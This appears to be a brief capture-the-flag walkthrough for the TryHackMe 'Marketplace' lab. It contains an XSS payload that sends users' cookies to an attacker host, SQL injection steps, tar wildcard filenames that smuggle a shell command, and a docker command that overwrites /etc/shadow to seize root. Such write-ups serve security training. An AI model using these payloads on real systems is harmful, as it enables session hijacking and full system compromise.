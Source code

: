 lab link: https://tryhackme.com/room/marketplace

nmap -sV -p- 10.10.149.193 

output :

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)

1-sign up in website
2-login
3-make New listing
4-title=<script>document.location='http://your ip/cookiestealer.php?c='+document.cookie;</script>
5-open webserver
6-steal cookie 
7-login with admin cookie
8-/target/admin?user=1 (SQL injection)
9- exploit SQLi



----------------------
table:
messages
in column:
message_content
user:jake
with password in column message_content
-connect with ssh 
-sudo -l
[+]output[+]
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
-----    
exploit:https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
-now we in user 
-michael
run linpeas 
UTC 2020oups: uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
  docker image run -it --volume /etc/shadow:/tmp/shadow alpine:latest sh  
  echo "root:$(mkpasswd -m sha-512 foo foobarbaz):12345:0:::::" > /tmp/shadow
  link exploit :https://blog.martiert.com/the-docker-group-and-privilege-escalation/
  now su root with your password
  we have root:)
  flags in:
    -admin panel
    -/home/jake/user.txt
    /root/root.txt








